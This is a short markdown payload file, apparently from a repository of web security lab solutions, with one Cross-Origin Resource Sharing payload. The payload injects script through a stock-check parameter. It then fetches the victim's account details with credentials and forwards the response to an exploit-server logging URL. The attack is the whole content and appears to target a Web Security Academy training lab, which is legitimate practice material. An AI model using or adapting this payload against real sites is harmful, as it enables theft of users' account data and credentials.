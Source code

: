# Payloads

Add your payloads, scripts, or exploit samples for Cross-Origin Resource Sharing here.




```
<script>
    document.location="http://stock.0a9200cf0461bfb180fa030500ac009f.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a9200cf0461bfb180fa030500ac009f.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a4800b2040dbf6e80be022201890015.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```